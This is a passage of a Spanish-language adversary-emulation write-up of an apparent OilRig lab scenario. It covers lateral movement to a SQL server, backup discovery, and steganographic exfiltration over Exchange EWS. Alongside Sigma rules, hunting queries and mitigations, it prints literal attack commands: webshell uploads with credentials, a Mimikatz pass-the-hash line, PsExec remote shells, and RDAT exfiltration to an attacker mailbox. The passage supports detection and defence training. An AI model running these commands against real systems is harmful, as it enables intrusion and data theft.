    $_.State -eq 'Established'
} | Select-Object LocalAddress, LocalPort, RemoteAddress, RemotePort, OwningProcess |
ForEach-Object {
    $_ | Add-Member -NotePropertyName ProcessName -NotePropertyValue (Get-Process -Id $_.OwningProcess).Name -PassThru
}
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **Egress Filtering**
   - Bloquear SSH saliente (puerto 22) desde workstations
   - Permitir solo desde jump boxes administrativos
   - Firewall rule:
     ```
     Block: [Workstation VLAN] → [Any]:22
     Allow: [Admin VLAN] → [Authorized SSH Servers]:22
     ```

2. **Application Whitelisting**
   - Denegar ejecución de plink.exe, ssh.exe en endpoints
   - Solo permitir desde sistemas administrativos
   - AppLocker rule:
     ```xml
     <FilePathRule>
       <Conditions>
         <FilePathCondition Path="*\plink.exe" />
       </Conditions>
       <Exceptions />
       <Action Type="Deny" />
     </FilePathRule>
     ```

3. **Network Access Control (NAC)**
   - Restringir workstations a solo recursos corporativos necesarios
   - Denegar acceso directo a Internet desde endpoints
   - Implementar proxy con inspección SSL/TLS

4. **Disable RDP en Servidores Críticos**
   - Solo permitir RDP desde jump boxes
   - Implementar PAM (Privileged Access Management)
   - Requerir JIT (Just-In-Time) access

**Detección:**

1. **Network IDS/IPS**
   - Reglas para SSH desde workstations
   - Detección de patrones de tráfico de tunneling
   - Alertas sobre volumen anómalo en SSH

2. **EDR con Network Monitoring**
   - Monitorear conexiones salientes por proceso
   - Correlacionar ejecución de plink con conexiones SSH
   - Behavioral analytics para identificar tunneling

3. **Proxy/Firewall Logs**
   - Logging de todas las conexiones SSH
   - Alertas sobre SSH desde VLANs no-administrativas
   - Análisis de duración y volumen de conexiones

4. **Endpoint Detection**
   - Monitorear ejecución de herramientas SSH
   - Alertar sobre procesos con parámetros de port forwarding
   - Correlacionar con otros indicadores de compromiso

**Respuesta:**

1. **Contención Inmediata:**
   - Terminar proceso plink.exe
   - Bloquear IP 192.168.0.4 en firewall
   - Aislar THEBLOCK de la red
   - Terminar todas las sesiones RDP activas en WATERFALLS

2. **Investigación:**
   - Revisar logs de autenticación RDP en WATERFALLS
   - Analizar actividad de cuenta Gosta en RDP session
   - Verificar comandos ejecutados durante la sesión
   - Revisar firewall logs para otras conexiones SSH

3. **Erradicación:**
   - Eliminar plink.exe
   - Eliminar SideTwist (SystemFailureReporter.exe)
   - Escanear en busca de otros implantes
   - Revisar tareas programadas

4. **Recuperación:**
   - Forzar cambio de contraseña de Gosta
   - Implementar MFA para RDP
   - Desplegar reglas de firewall para bloquear SSH saliente
   - Implementar Application Whitelisting

5. **Hardening Post-Incidente:**
   - PAM para gestión de acceso a servidores críticos
   - JIT access para RDP
   - Network segmentation mejorada
   - EDR deployment en todos los endpoints y servidores

---

### Fase 3: Compromiso del Servidor SQL y Exfiltración

Esta fase representa la culminación del ataque de OilRig, donde los atacantes aprovechan el acceso obtenido al servidor Exchange para pivotar hacia el servidor SQL (ENDOFROAD), descubrir datos sensibles, exfiltrarlos utilizando técnicas esteganográficas, y finalmente borrar sus rastros antes de abandonar la red comprometida.

**Objetivos de la Fase 3:**
- Movimiento lateral hacia el servidor SQL utilizando credenciales privilegiadas
- Descubrimiento de bases de datos y archivos de respaldo
- Exfiltración de datos vía EWS API con esteganografía
- Eliminación de artefactos y egreso limpio

---

#### **Paso 8: Movimiento Lateral al Servidor SQL**

##### **Contexto del Ataque**

En este paso, los atacantes de OilRig utilizan las credenciales del usuario privilegiado `tous` (obtenidas mediante Mimikatz en el Paso 6) para moverse lateralmente desde el servidor Exchange (WATERFALLS) hacia el servidor SQL (ENDOFROAD).

**Resumen de Actividades:**
1. Descargar herramientas adicionales al servidor Exchange (PsExec, RDAT, Mimikatz)
2. Ejecutar Pass-the-Hash con Mimikatz para obtener un shell como `tous`
3. Copiar el backdoor RDAT al servidor SQL
4. Utilizar PsExec para obtener una shell remota en el servidor SQL

**Técnicas MITRE ATT&CK:**
- **T1078.002** - Valid Accounts: Domain Accounts
- **T1550.002** - Use Alternate Authentication Material: Pass the Hash
- **T1021.002** - Remote Services: SMB/Windows Admin Shares
- **T1570** - Lateral Tool Transfer
- **T1569.002** - System Services: Service Execution

---

##### **Preparación: Descarga de Herramientas**

Los atacantes comienzan descargando tres herramientas críticas al servidor WATERFALLS a través del webshell TwoFace:

**1. Descarga de PsExec (renombrado como ps.exe):**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -F "upl=f1" \
     -F 'sav=C:\Windows\System32' \
     -F "vir=false" \
     -F "nen=ps.exe" \
     -F 'f1=@PsExec.exe' \
     https://10.1.0.6/ews/contact.aspx
```

**Análisis:**
- PsExec es renombrado como `ps.exe` para evadir detecciones basadas en nombres de archivo
- Se coloca en `C:\Windows\System32` para mezclarse con binarios legítimos del sistema
- Esta ubicación también facilita la ejecución sin especificar rutas completas

**2. Descarga de RDAT (renombrado como Nt.dat):**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -F "upl=f1" \
     -F 'sav=C:\Windows\Temp' \
     -F "vir=false" \
     -F "nen=Nt.dat" \
     -F 'f1=@RDAT.exe' \
     https://10.1.0.6/ews/contact.aspx
```

**Análisis:**
- RDAT es el backdoor de exfiltración que se utilizará para robar datos del SQL Server
- Renombrado como `Nt.dat` para aparentar ser un archivo de datos del sistema
- Colocado temporalmente en `C:\Windows\Temp` antes de ser movido al servidor SQL

**3. Re-descarga de Mimikatz (renombrado como mom64.exe):**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -F "upl=f1" \
     -F 'sav=C:\Windows\System32' \
     -F "vir=false" \
     -F "nen=mom64.exe" \
     -F 'f1=@m64.exe' \
     https://10.1.0.6/ews/contact.aspx
```

**Análisis:**
- Mimikatz se descarga nuevamente con un nombre diferente (`mom64.exe`) para realizar Pass-the-Hash
- El nombre `mom64.exe` es genérico y menos sospechoso que `mimikatz.exe`
- La múltiple descarga con diferentes nombres es una táctica de evasión

---

##### **Pass-the-Hash con Mimikatz**

Los atacantes ahora deben obtener un contexto de ejecución como el usuario `tous` (miembro del grupo SQL Admins y con permisos en ENDOFROAD). Para esto, utilizan la técnica Pass-the-Hash.

**Comando ejecutado desde el RDP a WATERFALLS (Command Prompt Elevado):**

```cmd
C:\Windows\System32\mom64.exe "privilege::debug" "sekurlsa::pth /user:tous /domain:BOOMBOX /ntlm:9b7ff4cc0878bee9f099a4a7dc7227c3" "exit"
```

**Análisis del Comando:**

1. **`privilege::debug`**
   - Habilita el privilegio SeDebugPrivilege
   - Permite a Mimikatz acceder a procesos protegidos (como lsass.exe)
   - Nota: En este escenario es técnicamente innecesario porque el webshell ya corre como SYSTEM

2. **`sekurlsa::pth`**
   - Módulo de Mimikatz para realizar Pass-the-Hash
   - No requiere conocer la contraseña en texto plano
   - Solo necesita el hash NTLM

3. **Parámetros:**
   - `/user:tous` - Usuario objetivo
   - `/domain:BOOMBOX` - Dominio Active Directory
   - `/ntlm:9b7ff4cc0878bee9f099a4a7dc7227c3` - Hash NTLM obtenido en el Paso 6

**Resultado:**
- Mimikatz crea un nuevo proceso `cmd.exe` con el token de seguridad de `tous`
- Este nuevo Command Prompt tiene los privilegios de `tous` sin necesidad de su contraseña
- Desde esta shell, los atacantes pueden acceder a recursos como si fueran `tous`

**Diagrama del Proceso:**

```
┌─────────────────────────────────────────────────────────┐
│ RDP Session: WATERFALLS (as gosta)                     │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  ┌─────────────────────────────────────┐               │
│  │ Elevated CMD (as gosta)             │               │
│  │                                     │               │
│  │  > mom64.exe sekurlsa::pth ...     │               │
│  └─────────────────┬───────────────────┘               │
│                    │                                   │
│                    │ Spawns new process               │
│                    v                                   │
│  ┌─────────────────────────────────────┐               │
│  │ New CMD (as tous)                   │               │
│  │ [With tous's access token]          │               │
│  │                                     │               │
│  │  > copy Nt.dat \\10.1.0.7\C$\...   │               │
│  │  > ps.exe \\10.1.0.7 cmd.exe       │               │
│  └─────────────────────────────────────┘               │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

---

##### **Transferencia Lateral de RDAT**

Una vez que los atacantes tienen un shell como `tous`, copian el backdoor RDAT al servidor SQL mediante SMB:

```cmd
copy C:\Windows\Temp\Nt.dat \\10.1.0.7\C$\ProgramData\
```

**Análisis de la Técnica:**

1. **Uso de Administrative Share (`C$`):**
   - `C$` es un share administrativo por defecto en Windows
   - Solo accesible por usuarios con privilegios administrativos
   - `tous` es miembro de "SQL Admins" que tiene acceso administrativo a ENDOFROAD

2. **Ruta de Destino: `C:\ProgramData\`**
   - Directorio común del sistema donde aplicaciones almacenan datos compartidos
   - Menos sospechoso que rutas de usuario o directorios temporales
   - Persiste a través de reinicios (no es un directorio temporal)

3. **Nombre del Archivo: `Nt.dat`**
   - Extensión `.dat` sugiere archivo de datos, no ejecutable
   - Prefijo `Nt` puede confundirse con archivos del sistema Windows NT
   - Táctica de camuflaje (masquerading)

---

##### **Ejecución Remota con PsExec**

Finalmente, los atacantes utilizan PsExec para obtener una shell interactiva en el servidor SQL:

```cmd
C:\Windows\System32\ps.exe \\10.1.0.7 cmd.exe
```

**Análisis de PsExec:**

PsExec es una herramienta legítima de Sysinternals que permite la ejecución remota de comandos. Su funcionamiento interno es:

1. **Copia del Servicio:**
   - PsExec copia `PSEXESVC.exe` al share admin (`\\10.1.0.7\ADMIN$`)

2. **Instalación del Servicio:**
   - Conecta al Service Control Manager (SCM) del host remoto vía RPC
   - Crea un servicio temporal con el binario PSEXESVC

3. **Ejecución del Comando:**
   - Inicia el servicio
   - El servicio ejecuta el comando especificado (`cmd.exe`)
   - Redirige la entrada/salida de vuelta al cliente PsExec

4. **Cleanup:**
   - Al finalizar, detiene el servicio
   - Elimina el servicio del registro
   - Elimina PSEXESVC.exe del sistema remoto

**Indicadores Forenses de PsExec:**

```
Archivo creado:
  C:\Windows\PSEXESVC.exe

Servicio creado:
  Name: PSEXESVC
  Display Name: PsExec Service
  Binary Path: C:\Windows\PSEXESVC.exe

Event Logs (Security):
  - Event ID 4697: Service installed
  - Event ID 5145: Network share accessed (ADMIN$)
  - Event ID 4624: Logon Type 3 (Network)

Event Logs (System):
  - Event ID 7045: Service Control Manager - New service installed
```

---

##### **Oportunidades de Detección**

**1. Detección de Descargas vía Webshell:**

```yaml
# Sigma Rule: Multiple Tool Downloads via TwoFace
title: Múltiples Herramientas Descargadas vía Webshell TwoFace
status: experimental
description: Detecta descarga de múltiples herramientas (PsExec, Mimikatz) vía webshell
logsource:
    category: webserver
    product: iis
detection:
    selection_path:
        cs-uri-stem: '/ews/contact.aspx'
    selection_post:
        cs-method: 'POST'
    selection_upload:
        cs-uri-query|contains: 'upl=f1'
    timeframe: 10m
    condition: selection_path and selection_post and selection_upload | count(c-ip) by c-ip > 2
falsepositives:
    - Uso legítimo de upload funcionalidad (muy improbable en EWS)
level: critical
tags:
    - attack.command_and_control
    - attack.t1505.003
```

**2. Detección de Pass-the-Hash con Mimikatz:**

```yaml
# Sigma Rule: Mimikatz Pass-the-Hash
title: Mimikatz Pass-the-Hash Execution
status: stable
description: Detecta ejecución de Pass-the-Hash con Mimikatz
logsource:
    product: windows
    category: process_creation
detection:
    selection_process:
        Image|endswith:
            - '\mimikatz.exe'
            - '\mom64.exe'
            - '\m64.exe'
    selection_params:
        CommandLine|contains|all:
            - 'sekurlsa::pth'
            - '/user:'
            - '/ntlm:'
    condition: selection_process and selection_params
falsepositives:
    - Testing de seguridad autorizado
    - Red Team exercises
level: critical
tags:
    - attack.lateral_movement
    - attack.t1550.002
```

**3. Detección de PsExec:**

```yaml
# Sigma Rule: PsExec Service Installation
title: PsExec Service Installation Detectado
status: stable
description: Detecta instalación del servicio PSEXESVC
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID: 7045
        ServiceName: 'PSEXESVC'
    condition: selection
falsepositives:
    - Uso legítimo de PsExec por administradores
    - Scripts de deployment corporativos
level: medium
tags:
    - attack.lateral_movement
    - attack.t1021.002
```

**4. Detección de Acceso a Admin Shares:**

```yaml
# Sigma Rule: Admin Share Access from Non-Admin Systems
title: Acceso a Administrative Shares desde Sistemas No-Administrativos
status: experimental
description: Detecta acceso a C$ desde sistemas que no son jump boxes
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5145
        ShareName: '\\\*\C$'
    filter_admin_systems:
        IpAddress:
            - '10.1.0.100'  # Jump box autorizado
            - '10.1.0.101'  # PAM system
    condition: selection and not filter_admin_systems
falsepositives:
    - Backups automáticos
    - Software de gestión centralizado
level: medium
tags:
    - attack.lateral_movement
    - attack.t1021.002
```

**5. Hunting con PowerShell:**

```powershell
# Buscar instalación de servicio PSEXESVC
Get-WinEvent -FilterHashtable @{
    LogName='System'
    ID=7045
} | Where-Object {
    $_.Properties[0].Value -eq 'PSEXESVC'
} | Select-Object TimeCreated, @{
    Name='ServiceName'
    Expression={$_.Properties[0].Value}
}, @{
    Name='ServicePath'
    Expression={$_.Properties[1].Value}
}, @{
    Name='ServiceAccount'
    Expression={$_.Properties[4].Value}
}

# Buscar acceso a administrative shares
Get-WinEvent -FilterHashtable @{
    LogName='Security'
    ID=5145
} | Where-Object {
    $_.Properties[8].Value -like '*$'
} | Select-Object TimeCreated, @{
    Name='Account'
    Expression={$_.Properties[1].Value}
}, @{
    Name='SourceIP'
    Expression={$_.Properties[18].Value}
}, @{
    Name='ShareName'
    Expression={$_.Properties[8].Value}
}, @{
    Name='AccessMask'
    Expression={$_.Properties[11].Value}
} | Format-Table -AutoSize
```

---

##### **Estrategias de Mitigación**

**Prevención:**

1. **Restringir Administrative Shares**
   ```powershell
   # Deshabilitar C$ excepto para sistemas autorizados
   # Via GPO: Computer Configuration > Windows Settings > Security Settings >
   # System Services > Server (disable or configure allowed IPs)

   # Alternativamente, vía Registry:
   Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\LanmanServer\Parameters" `
                    -Name "AutoShareWks" -Value 0
   ```

2. **Restricción de PsExec**
   - Implementar Application Whitelisting para bloquear `psexec.exe` y variantes
   - Permitir solo desde jump boxes autorizados
   - AppLocker rule:
     ```xml
     <FilePathRule>
       <Conditions>
         <FilePathCondition Path="*\ps.exe" />
         <FilePathCondition Path="*\psexec*.exe" />
       </Conditions>
       <Action Type="Deny" />
     </FilePathRule>
     ```

3. **Protected Users Group**
   - Agregar cuentas privilegiadas (como `tous`) al grupo "Protected Users"
   - Previene el uso de NTLM (fuerza Kerberos)
   - Previene almacenamiento de credenciales en memoria en texto plano
   - Deshabilita Pass-the-Hash
   ```powershell
   Add-ADGroupMember -Identity "Protected Users" -Members "tous"
   ```

4. **Credential Guard**
   - Habilitar Windows Defender Credential Guard en servidores críticos
   - Previene robo de credenciales mediante virtualización basada en seguridad
   - Requiere hardware compatible (TPM, UEFI)

5. **LAPS (Local Administrator Password Solution)**
   - Gestión centralizada de contraseñas de administrador local
   - Rotación automática de contraseñas
   - Previene uso de credenciales locales comprometidas para movimiento lateral

6. **Network Segmentation**
   - El servidor Exchange no debería poder iniciar conexiones SMB hacia el servidor SQL
   - Firewall rules:
     ```
     Deny: [Exchange VLAN] → [SQL VLAN]:445
     Allow: [SQL VLAN] → [Exchange VLAN]:443,587,etc (solo conexiones requeridas)
     ```

**Detección:**

1. **EDR con Behavioral Analytics**
   - Monitorear cadenas de ejecución anómalas: `w3wp.exe` → `cmd.exe` → `mimikatz.exe`
   - Detectar Pass-the-Hash mediante análisis de creación de procesos
   - Alertar sobre uso de credenciales privilegiadas desde contextos web

2. **SIEM Correlation Rules**
   ```
   IF [Webshell Activity Detected on WATERFALLS]
     AND [Multiple File Uploads to System32]
     AND [Mimikatz Execution]
     AND [Admin Share Access to SQL Server]
     AND [PsExec Service Creation on SQL Server]
   THEN Alert: Critical - Lateral Movement to SQL Server
   ```

3. **Honey Credentials**
   - Crear cuentas "trampa" con credenciales atractivas
   - Monitorear cualquier uso de estas credenciales
   - Alertar inmediatamente sobre autenticación con honey accounts

4. **Audit Policy Configuration**
   - Habilitar auditing de acceso a objetos (Administrative Shares)
   - Auditar creación de servicios
   - Auditar uso de privilegios especiales (SeDebugPrivilege)
   ```powershell
   auditpol /set /subcategory:"File Share" /success:enable /failure:enable
   auditpol /set /subcategory:"System Events" /success:enable
   auditpol /set /subcategory:"Sensitive Privilege Use" /success:enable /failure:enable
   ```

**Respuesta:**

1. **Contención Inmediata:**
   - Aislar WATERFALLS y ENDOFROAD de la red
   - Terminar proceso PsExec en ENDOFROAD
   - Deshabilitar cuenta `tous` temporalmente
   - Bloquear acceso SMB entre WATERFALLS y ENDOFROAD en firewall

2. **Investigación:**
   - Revisar logs de IIS en WATERFALLS para todas las requests a `contact.aspx`
   - Analizar archivos descargados (ps.exe, mom64.exe, Nt.dat)
   - Revisar memoria de procesos en busca de credenciales en texto plano
   - Auditar todos los accesos de la cuenta `tous` en las últimas 24-72 horas
   - Verificar qué datos pudo acceder el atacante en ENDOFROAD

3. **Erradicación:**
   - Eliminar webshell `contact.aspx` de WATERFALLS
   - Eliminar todos los artefactos: `ps.exe`, `mom64.exe`, `Nt.dat`
   - Eliminar PSEXESVC.exe si aún existe
   - Escanear ambos servidores con EDR/AV actualizado
   - Verificar tareas programadas, servicios, y claves de registry para persistencia adicional

4. **Recuperación:**
   - Forzar reset de contraseña de `tous` y todas las cuentas privilegiadas
   - Resetear krbtgt hash dos veces (prevenir Golden Tickets)
   - Implementar MFA para todas las cuentas privilegiadas
   - Desplegar Credential Guard en todos los servidores críticos

5. **Post-Incidente Hardening:**
   - Remover el usuario `tous` de múltiples grupos privilegiados (principio de mínimo privilegio)
   - Implementar PAM con JIT access
   - Desplegar LAPS en todos los sistemas
   - Implementar network segmentation estricta
   - Agregar cuentas privilegiadas a "Protected Users" group
   - Configurar Application Whitelisting para prevenir ejecución de herramientas de ataque

---

#### **Paso 9: Descubrimiento del Servidor SQL**

##### **Contexto del Ataque**

Una vez que los atacantes obtienen acceso al servidor SQL (ENDOFROAD) a través de PsExec, realizan actividades de reconocimiento para identificar la estructura del servidor, localizar bases de datos de interés, y encontrar archivos de respaldo que puedan contener información sensible.

**Resumen de Actividades:**
1. Identificar la versión del servidor SQL instalado
2. Descubrir archivos de respaldo de bases de datos
3. Evaluar el contenido y tamaño de los archivos para exfiltración

**Técnicas MITRE ATT&CK:**
- **T1083** - File and Directory Discovery
- **T1082** - System Information Discovery
- **T1007** - System Service Discovery

---

##### **Ejecución del Reconocimiento**

Los atacantes realizan comandos simples pero efectivos desde la shell PsExec para mapear el entorno:

**1. Identificar la versión de SQL Server:**

```cmd
dir "C:\Program Files\Microsoft SQL Server\"
```

**Análisis:**
- Microsoft SQL Server organiza sus instalaciones por versión en directorios numerados
- Por ejemplo: `MSSQL15.MSSQLSERVER` indica SQL Server 2019 (versión 15)
- Esta información ayuda a los atacantes a:
  - Identificar vulnerabilidades conocidas para esa versión
  - Determinar rutas predeterminadas para archivos de datos y respaldos
  - Entender las capacidades y características disponibles

**Ejemplo de salida:**

```
C:\Program Files\Microsoft SQL Server\
├── 150/                    # Versión instalada (SQL Server 2019)
├── MSSQL15.MSSQLSERVER/   # Instancia principal
├── Client SDK/
└── ...
```

**2. Localizar archivos de respaldo de bases de datos:**

```cmd
dir "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\"
```

**Análisis:**
- La carpeta `Backup` es la ubicación predeterminada para respaldos de bases de datos
- Los archivos de respaldo (`.bak`) contienen:
  - Esquema completo de la base de datos
  - Todos los datos de las tablas
  - Procedimientos almacenados, vistas, funciones
  - Información de seguridad (usuarios, permisos)

**Ejemplo de salida:**

```
C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\

 Directory of C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup

10/15/2024  02:30 AM    <DIR>          .
10/15/2024  02:30 AM    <DIR>          ..
10/14/2024  11:45 PM        52,428,800 sitedata_db.bak
10/13/2024  11:45 PM        48,234,496 sitedata_db_old.bak
               2 File(s)    100,663,296 bytes
```

**Valor de los Archivos de Respaldo para los Atacantes:**

1. **Datos Completos sin Autenticación:**
   - No requieren credenciales de SQL para leer el archivo
   - Pueden ser descargados y analizados offline
   - Contienen información histórica

2. **Evasión de Logging:**
   - Acceder a archivos del sistema no genera logs de SQL Server
   - No aparece en auditoría de consultas SQL
   - Dificulta la detección de exfiltración de datos

3. **Facilita la Exfiltración:**
   - Archivos únicos y comprimidos
   - Más eficiente que exportar tablas individuales
   - Estructura de archivo estándar para restauración posterior

---

##### **Oportunidades de Detección**

**1. Detección de Comandos de Reconocimiento:**

```yaml
# Sigma Rule: SQL Server Directory Enumeration
title: Enumeración de Directorios de SQL Server
status: experimental
description: Detecta comandos dir dirigidos a directorios de SQL Server
logsource:
    product: windows
    category: process_creation
detection:
    selection_process:
        ParentImage|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
        Image|endswith: '\cmd.exe'
    selection_command:
        CommandLine|contains:
            - 'Microsoft SQL Server'
            - '\MSSQL'
            - '\Backup'
    condition: selection_process and selection_command
falsepositives:
    - Administradores de SQL realizando mantenimiento
    - Scripts de respaldo automatizados
level: low
tags:
    - attack.discovery
    - attack.t1083
```

**2. Detección de Acceso a Archivos de Respaldo:**

```yaml
# Sigma Rule: SQL Backup File Access
title: Acceso a Archivos de Respaldo de SQL Server
status: experimental
description: Detecta acceso a archivos .bak en directorios de SQL Server
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4663  # Object Access
        ObjectName|contains: '\MSSQL'
        ObjectName|endswith: '.bak'
        AccessMask: '0x1'  # ReadData
    filter:
        ProcessName|endswith:
            - '\sqlservr.exe'
            - '\sqlwriter.exe'
    condition: selection and not filter
falsepositives:
    - Software de respaldo legítimo
    - Herramientas de administración de SQL
level: medium
tags:
    - attack.collection
    - attack.t1005
```

**3. Hunting Query con PowerShell:**

```powershell
# Buscar acceso a archivos de respaldo SQL
Get-WinEvent -FilterHashtable @{
    LogName='Security'
    ID=4663  # Object Access
} | Where-Object {
    $_.Properties[6].Value -like '*\MSSQL*\Backup\*.bak' -and
    $_.Properties[8].Value -match '0x1'  # ReadData
} | Select-Object TimeCreated,
    @{Name='User'; Expression={$_.Properties[1].Value}},
    @{Name='Process'; Expression={$_.Properties[11].Value}},
    @{Name='File'; Expression={$_.Properties[6].Value}},
    @{Name='AccessMask'; Expression={$_.Properties[8].Value}}
```

---

##### **Estrategias de Mitigación**

**Prevención:**

1. **Cifrado de Archivos de Respaldo:**
   ```sql
   -- Crear respaldo con cifrado
   BACKUP DATABASE sitedata
   TO DISK = 'C:\Backup\sitedata_db.bak'
   WITH ENCRYPTION (
       ALGORITHM = AES_256,
       SERVER CERTIFICATE = BackupCert
   );
   ```
   - Previene lectura de archivos de respaldo sin certificado
   - Los atacantes no pueden restaurar o analizar el respaldo offline

2. **Relocación de Archivos de Respaldo:**
   - Mover respaldos a ubicación remota inmediatamente después de creación
   - Usar shares de red con permisos restrictivos
   - Implementar segmentación de red (SQL server no debe acceder a storage directamente)

3. **NTFS Permissions Restrictivas:**
   ```powershell
   # Restringir acceso a carpeta Backup
   $acl = Get-Acl "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup"
   $acl.SetAccessRuleProtection($true, $false)  # Deshabilitar herencia

   # Permitir solo SQL Service Account y Admins de Backup
   $rule1 = New-Object System.Security.AccessControl.FileSystemAccessRule(
       "NT SERVICE\MSSQLSERVER", "FullControl", "Allow"
   )
   $rule2 = New-Object System.Security.AccessControl.FileSystemAccessRule(
       "DOMAIN\BackupAdmins", "ReadAndExecute", "Allow"
   )

   $acl.SetAccessRule($rule1)
   $acl.SetAccessRule($rule2)
   Set-Acl -Path "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup" -AclObject $acl
   ```

4. **Auditing de Acceso a Objetos:**
   ```powershell
   # Habilitar auditoría de acceso a archivos de respaldo
   auditpol /set /subcategory:"File System" /success:enable /failure:enable

   # Configurar SACL en carpeta Backup
   $path = "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup"
   $acl = Get-Acl $path

   $audit = New-Object System.Security.AccessControl.FileSystemAuditRule(
       "Everyone",
       "ReadData, WriteData, Delete",
       "ContainerInherit, ObjectInherit",
       "None",
       "Success"
   )

   $acl.AddAuditRule($audit)
   Set-Acl -Path $path -AclObject $acl
   ```

**Detección:**

1. **File Integrity Monitoring (FIM):**
   - Monitorear cambios en carpeta Backup
   - Alertar sobre accesos de lectura por procesos no autorizados
   - Ejemplo con Sysmon:
     ```xml
     <RuleGroup groupRelation="or">
       <FileCreate onmatch="include">
         <TargetFilename condition="contains">\MSSQL\Backup\</TargetFilename>
       </FileCreate>
       <FileCreateStreamHash onmatch="include">
         <TargetFilename condition="contains">\MSSQL\Backup\</TargetFilename>
       </FileCreateStreamHash>
     </RuleGroup>
     ```

2. **EDR Process Monitoring:**
   - Detectar cadenas de proceso anómalas: `psexec.exe` → `cmd.exe` → `dir` (SQL paths)
   - Correlacionar con otros IOCs (PsExec service, admin share access)

**Respuesta:**

1. **Contención Inmediata:**
   - Verificar integridad de archivos de respaldo (checksums)
   - Aislar servidor SQL de la red
   - Terminar sesiones PsExec activas
   - Cambiar contraseñas de cuentas de servicio SQL

2. **Investigación:**
   - Revisar qué archivos fueron accedidos
   - Verificar si archivos fueron copiados o exfiltrados
   - Analizar logs de red para detectar transferencia de datos
   - Revisar timeline completo de actividad del atacante

---

#### **Paso 10: Recolección y Exfiltración de Archivos de Base de Datos**

##### **Contexto del Ataque**

Este paso representa la fase de misión cumplida (mission accomplished) del ataque de OilRig. Los atacantes utilizan el backdoor RDAT para exfiltrar los archivos de respaldo de la base de datos mediante la API de Exchange Web Services (EWS), ocultando los datos dentro de imágenes BMP utilizando técnicas esteganográficas.

**Resumen de Actividades:**
1. Crear directorio de staging para RDAT
2. Mover y renombrar RDAT como proceso aparentemente legítimo (VMware.exe)
3. Ejecutar RDAT para leer, fragmentar y exfiltrar el archivo de base de datos
4. Enviar fragmentos como adjuntos esteganográficos vía EWS API

**Técnicas MITRE ATT&CK:**
- **T1074.001** - Data Staged: Local Data Staging
- **T1030** - Data Transfer Size Limits
- **T1048.003** - Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol
- **T1071.003** - Application Layer Protocol: Mail Protocols
- **T1027.003** - Obfuscated Files or Information: Steganography
- **T1114.002** - Email Collection: Remote Email Collection

---

##### **Preparación: Staging de RDAT**

Los atacantes preparan el entorno para la exfiltración creando una estructura de directorios que simula software legítimo:

**1. Crear directorio staging:**

```cmd
mkdir C:\Programdata\Vmware
```

**Análisis:**
- `C:\ProgramData\` es un directorio común para datos de aplicaciones
- Nombre "Vmware" sugiere software legítimo (VMware guest tools)
- Tácticas de masquerading para evadir inspección casual

**2. Mover y renombrar RDAT:**

```cmd
move C:\Programdata\Nt.dat C:\Programdata\Vmware\VMware.exe
```

**Análisis:**
- Cambio de extensión de `.dat` a `.exe` para facilitar ejecución
- Nombre `VMware.exe` se camufla como proceso legítimo
- Ubicación en carpeta VMware aumenta la credibilidad del camuflaje

**3. Navegar al directorio de respaldos SQL:**

```cmd
cd "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\"
```

**Análisis:**
- PsExec tiene limitaciones en la longitud de línea de comandos
- Cambiar al directorio permite usar rutas relativas en el comando RDAT
- Reduce complejidad del comando de exfiltración

---

##### **Ejecución de RDAT: Exfiltración Esteganográfica**

Los atacantes ejecutan RDAT con parámetros específicos para fragmentar y exfiltrar el archivo de base de datos:

```cmd
C:\ProgramData\Vmware\VMware.exe \
    --path="sitedata_db.bak" \
    --to="sistan@shirinfarhad.com" \
    --from="gosta@boom.box" \
    --server="10.1.0.6" \
    --password='d0ntGoCH4$ingW8trfalls' \
    --chunksize="200000"
```

**Análisis de Parámetros:**

1. **`--path="sitedata_db.bak"`**
   - Archivo objetivo para exfiltración
   - Ruta relativa (trabajando desde directorio Backup)
   - En este caso: ~50 MB de datos de base de datos

2. **`--to="sistan@shirinfarhad.com"`**
   - Dirección de email controlada por los atacantes
   - Dominio registrado por OilRig para operaciones
   - Recibirá todos los fragmentos de datos exfiltrados

3. **`--from="gosta@boom.box"`**
   - Cuenta de email comprometida
   - Utiliza credenciales válidas para autenticación EWS
   - El email aparecerá en "Sent Items" de Gosta (evidencia forense)

4. **`--server="10.1.0.6"`**
   - Servidor Exchange (WATERFALLS)
   - RDAT se conecta directamente a EWS API
   - No requiere salir a Internet (evasión de egress filtering)

5. **`--password='d0ntGoCH4$ingW8trfalls'`**
   - Contraseña de Gosta obtenida previamente
   - Autenticación NTLM con EWS
   - Acceso legítimo a servicios de correo

6. **`--chunksize="200000"`**
   - Fragmentos de 200,000 bytes (~195 KB)
   - Tamaño manejable para enviar como adjuntos de email
   - Evita alertas por emails con adjuntos extremadamente grandes

---

##### **Funcionamiento Interno de RDAT**

RDAT implementa un proceso sofisticado de exfiltración en múltiples pasos:

**Flujo de Operación:**

```
┌─────────────────────────────────────────────────────────────────┐
│ Paso 1: Lectura de Archivo                                     │
│ ────────────────────────────────────────────────────────────── │
│  sitedata_db.bak (52,428,800 bytes)                            │
│  └─> Read file into memory buffer                              │
└─────────────────────────────────────────────────────────────────┘
                             │
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│ Paso 2: Fragmentación                                          │
│ ────────────────────────────────────────────────────────────── │
│  Dividir en chunks de 200,000 bytes:                           │
